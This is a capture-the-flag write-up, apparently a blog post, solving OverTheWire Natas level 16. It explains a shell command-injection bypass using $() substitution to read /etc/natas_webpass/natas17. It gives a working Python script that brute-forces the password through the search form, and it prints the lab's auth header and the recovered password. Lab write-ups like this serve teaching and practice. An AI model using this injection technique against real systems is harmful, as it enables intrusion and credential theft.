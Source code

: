 ```yaml
---
layout: post
title: "Natas Level16 - Level17"
date: 2015-10-02 21:06:47
image: '/assets/img/'
description:
tags: Natas CTF
categories: Natas
twitter_text:
---
```

Natas 16 looks similar to the earlier challenges where we were got to search for a word in a flat document. However this time it says "For security reasons, we now filter even more on certain characters":

![Natas 16 search](/assets/img/screenshots/Natas_level16-1.png)

Lets open up the source and see what the difference is:

{% highlight html %}
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script>var wechallinfo = { "level": "natas16", "pass": "<censored>" };</script></head>
<body>
<h1>natas16</h1>
<div id="content">

For security reasons, we now filter even more on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
{% endhighlight %}

Here is the regular expression that filters out the words:

{% highlight regex %}
/[;|&`\'"]/
{% endhighlight %}

Basically any of the following characters are now disallowed: ; | & ' \ ' "

So any of our previous strings will not work. I remembered that you can execute commands within a string in bash by adding a: $(<<COMMANDHERE>>). My idea was to run the following code:

{% highlight bash %}
$(grep ^A /etc/natas_webpass/natas17)
{% endhighlight %}

If we run that and the first character is "A" the entire password will be returned. If "A" does not exist, an empty string will be returned. However, this won't work because even if we guess the correct letter grep will return the password and search for the password in the dictionary which does not exist. If we find a word that exists in the dictionary, we would be able to utilize the fact that grep returns an empty string when the letter is not found. Lets first find a word we can use, I just searched for the letter "a":

![Natas 16 search for a](/assets/img/screenshots/Natas_level16-2.png)

I'll use the word "African" and that would mean our query string will look something like:

{% highlight bash %}
    $(grep ^A /etc/natas_webpass/natas17)African
{% endhighlight %}

Next I'll use the Burp Intruder to see if we can get just the first letter:

![Natas 16 search](/assets/img/screenshots/Natas_level16-3.png)

Looks like we got a hit! Now lets use a script. I'll copy most of it from the last challenge:

{% highlight python %}
import urllib
import urllib2
import pprint

url = 'http://natas16.natas.labs.overthewire.org/'
referrer = 'natas15.natas.labs.overthewire.org'
authorization = 'Basic bmF0YXMxNjpXYUlIRWFjajYzd25OSUJST0hlcWkzcDl0MG01bmhtaA=='

Chars = ['a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r',
's','t','u','v','w','x','y','z','A','B','C','D','E','F','G','H','I','J','K','L',
'M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','0','1','2','3','4','5',
'6','7','8','9']

password = ""

#loop through possible length of password
for i in range(1, 33):
    print "%d out of 32" % (i)
    #loop through possible chars
    for j in range(0,len(Chars)):
        grep = '$(grep ^%s /etc/natas_webpass/natas17)African' % (password + Chars[j])
        values = {'needle' : grep,'submit' : 'Search'}
        req = urllib2.Request(url)
        req.add_data(urllib.urlencode(values))
        req.add_header('Referrer', referrer)
        req.add_header('Authorization', authorization)
        try:
            response = urllib2.urlopen(req)
            the_page = response.read()
            #print the_page
        except HTTPError, e:
            print e.reason
        if "African" not in the_page:
            password+=Chars[j]
            print password
            break
{% endhighlight %}

After that's done we get the following output:
    1 out of 32
    8
    2 out of 32
    8P
    3 out of 32
    8Ps
    4 out of 32
    ....
    27 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhP
    28 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhPk
    29 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq
    30 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9
    31 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9c
    32 out of 32
    8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

